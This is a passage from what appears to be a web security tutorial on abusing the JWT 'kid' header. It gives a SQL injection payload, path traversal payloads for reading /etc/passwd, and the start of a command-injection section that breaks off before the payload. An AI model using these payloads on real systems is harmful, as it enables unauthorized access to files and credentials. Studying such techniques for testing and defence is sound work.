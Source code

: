 ```json
{
“alg” : “HS256”,
“typ” : “JWT”,
“kid” : “SELECT * FROM users WHERE username = 'admin'--' AND password = ''”
}
```

# 2. Local File Inclusion

This vulnerability has the same process as the SQLi one, but we use different payload:

>../../../../etc/passwd

or

>....//....//....//....//etc/passwd

Based on my experience, LFI and SQL Injection are more likely to happen in “KID”, which is easily manipulated. Here is an example how we can do it (What we are working here is the Header, the Payload and Signature aren’t changed):

```json
{
“alg” : “HS256”,
“typ” : “JWT”,
“kid” : “1” // KID is often used to retrieve a key file from the file system
}
```

If KID parameter isn’t properly sanitized, it becomes vulnerable to LFI. We simply add our payload and the final JWT will look something like this (What we are working here is the Header, the Payload and Signature aren’t changed):

```json
{
“alg” : “HS256”,
“typ” : “JWT”,
“kid” : “../../../etc/passwd”
}
```

![jwt_lfi_payload_replace](https://miro.medium.com/max/1400/1*ZsLNj6hsQx-5YeooMEVl3Q.png)

Copy the JWT and replace the JWT into the Burp (which is generated by the website). You will see the content of /etc/passwd.

# 3. Command Injection

The process is the same as 1.2 (SQLi with KID) and 2 (Local File Inclusion). Here is an example (What we are working here is the Header, the Payload and Signature aren’t changed)

```json
{
“alg” : “HS256”,
“typ” : “JWT”,
“kid” : “1”
}
```
Change the KID into a code, which is going to be executed:
